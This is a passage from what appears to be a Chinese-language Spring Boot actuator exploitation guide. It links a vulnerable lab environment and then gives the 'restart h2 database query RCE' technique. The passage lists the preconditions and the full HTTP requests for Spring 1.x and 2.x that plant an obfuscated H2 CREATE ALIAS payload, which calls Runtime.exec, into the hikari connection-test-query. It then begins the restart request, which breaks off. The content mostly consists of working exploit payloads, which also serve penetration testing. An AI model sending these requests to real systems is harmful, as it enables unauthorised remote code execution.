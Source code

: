 #### 漏洞环境

[repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)

正常访问：

```url
http://127.0.0.1:9094/env
```

### 0x06：restart h2 database query RCE

#### 利用条件

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/restart` 接口重启应用
- 存在 `com.h2database.h2` 依赖（版本要求暂未知）

#### 利用方法

##### 步骤一：设置 spring.datasource.hikari.connection-test-query 属性

> ⚠️ 下面payload 中的 'T5' 方法每一次执行命令后都需要更换名称 (如 T6) ，然后才能被重新创建使用，否则下次 restart 重启应用时漏洞不会被触发

spring 1.x（无回显执行命令）

```http
POST /env HTTP/1.1
Content-Type: application/x-www-form-urlencoded

spring.datasource.hikari.connection-test-query=CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');
```

spring 2.x（无回显执行命令）

```http
POST /actuator/env HTTP/1.1
Content-Type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');"}
```

##### 步骤二：重启应用

spring 1.x

```http
POST /restart HTTP/1.1
Content-Type: application/x-www-form-urlencoded

```
